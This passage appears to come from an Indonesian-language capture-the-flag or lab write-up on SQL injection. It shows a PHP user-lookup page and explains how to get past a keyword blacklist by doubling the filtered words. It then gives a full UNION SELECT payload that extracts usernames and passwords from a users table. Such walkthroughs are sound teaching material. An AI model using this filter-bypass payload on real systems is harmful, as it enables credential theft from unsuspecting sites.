 ```
                            <p class="well"><strong>Username for given ID</strong>: <?php echo $userDetails['username']; ?> </p>
                            <p class="well"><strong>Other User Details</strong>: <br />
                                <?php 
                                $keys = array_keys($userDetails);
                                $i = 0;

                                foreach($userDetails as $user) { 
                                    echo $keys[$i++] . ' -> ' . $user . "<br />";
                                } 
                                ?> 
                            </p>
                        </div>
                    <?php endif; ?>

                    <div class="row">
                        <form name="username" method="post">
                            <div class="form-group col-md-2">
                                <input type="text" class="form-control" id="user_id" name="user_id" placeholder="1" required>
                            </div>
                            <div class="form-group col-md-2">
                                <input type="submit" class="form-control btn btn-default" name="submit">
                            </div>
                        </form>
                    </div>
                </div>
            </div>
        </div>
        <script type="text/javascript" src="../static/bootstrap.min.js"></script>
    </body>
</html>
```

Ternyata wordlist yang di blacklist hanya di replace dengan "" atau kosong, jadi untuk melakukan bypassnya kita bisa mendouble kan kata kata yang di blacklist, contoh : union -> uniunionon

Payloadnya akan menjadi seperti ini

```
-1 UNUNIONION SSELECTELECT username,password ffromrom users-- -
```

![Image](img/level2/2.PNG)
